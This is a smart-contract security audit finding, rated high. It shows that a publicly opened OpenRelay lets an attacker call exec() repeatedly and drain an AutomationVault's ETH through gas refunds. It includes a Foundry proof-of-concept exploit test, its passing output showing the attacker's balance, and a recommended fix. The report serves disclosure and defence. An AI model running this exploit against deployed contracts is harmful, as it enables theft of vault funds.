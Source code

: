 Mysterious Admiral Cougar

high

# Attacker can make many transaction to get back the gas refund if the open relay is opened for everyone.

## Summary

If the `OpenRelay` is opened to everyone, someone can just make a lot of calls to the same job again and again even if it is not setup to do so and can drain the pool from the ETH.

## Vulnerability Detail

When `OpenRelay`  is opened to everyone by pushing `_ALL` in the `_approveCallers` mapping in `AutomationVault(...)`, anyone can call the execution function through the approved relay. But if there is no restriction in the job for multiple transaction for the same function selector, then `OpenRelay::exec()` can be called any amount of time and attacker can drain the pool by getting back all ETH in form of ETH refund.

## Impact

Vault can be drained.

## Code Snippet

#### POC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.19;

import {CommonIntegrationTest} from '../integration/Common.t.sol';

import {IAutomationVault} from '../../interfaces/core/IAutomationVault.sol';
import {_ALL} from "../../utils/Constants.sol";
import {console2} from "forge-std/console2.sol";

contract IntegrationOpenRelay is CommonIntegrationTest {
  function setUp() public override {
    // AutomationVault setup
    CommonIntegrationTest.setUp();

    // Bot callers array
    address[] memory _bots = new address[](2);
    _bots[0] = bot;
    _bots[1] = _ALL;

    // Job selectors array
    bytes4[] memory _jobSelectors = new bytes4[](3);
    _jobSelectors[0] = basicJob.work.selector;
    _jobSelectors[1] = basicJob.workHard.selector;
    

    // Job data array
    IAutomationVault.JobData[] memory _jobsData = new IAutomationVault.JobData[](1);
    _jobsData[0] = IAutomationVault.JobData(address(basicJob), _jobSelectors);

    startHoax(owner);

    // AutomationVault approve relay data
    automationVault.addRelay(address(openRelay), _bots, _jobsData);
    address(automationVault).call{value: 100 ether}('');

    changePrank(bot);
  }

  function test_checking() public {
    address attacker = makeAddr("attacker");

    // setting data
    IAutomationVault.ExecData[] memory _execData = new IAutomationVault.ExecData[](1);
    _execData[0] =
      IAutomationVault.ExecData(address(basicJob), abi.encodeWithSelector(basicJob.work.selector));

    // Calculate the exec gas cost
    uint256 _gasBeforeExec = gasleft();

    // attacker run the jobs multiple times
    changePrank(attacker);
    openRelay.exec(automationVault, _execData, attacker);
    openRelay.exec(automationVault, _execData, attacker);
    openRelay.exec(automationVault, _execData, attacker);
    openRelay.exec(automationVault, _execData, attacker);

    uint256 _gasAfterExec = gasleft();

    // Calculate tx cost
    uint256 _txCost = (_gasBeforeExec - _gasAfterExec) * block.basefee;

    // Calculate payment
    uint256 _payment = _txCost * openRelay.GAS_MULTIPLIER() / openRelay.BASE();

    console2.log("Attacker eth balance: ", attacker.balance);
  }
}

```

#### Output:

```bash
AMIR@Victus MINGW64 /d/xkeeper-audit/xkeeper-core (master)
$ forge test --mt test_checking --fork-url https://rpc.ankr.com/eth/12f1050401130db959d7796d7aa2c381ca18b3972faf7b9f23291f165c486926 -vv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for solidity/test/integration/OpenRelay.t.sol:IntegrationOpenRelay
[PASS] test_checking() (gas: 174102)
Logs:
  Attacker eth balance:  6701736926749668

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 968.63ms (2.32ms CPU time)

Ran 1 test suite in 2.17s (968.63ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)

```

## Tool used

Manual Review

## Recommendation

It is recommended to add some kind of delay params for the calls or keep the counter for each job or add timestamp checks.
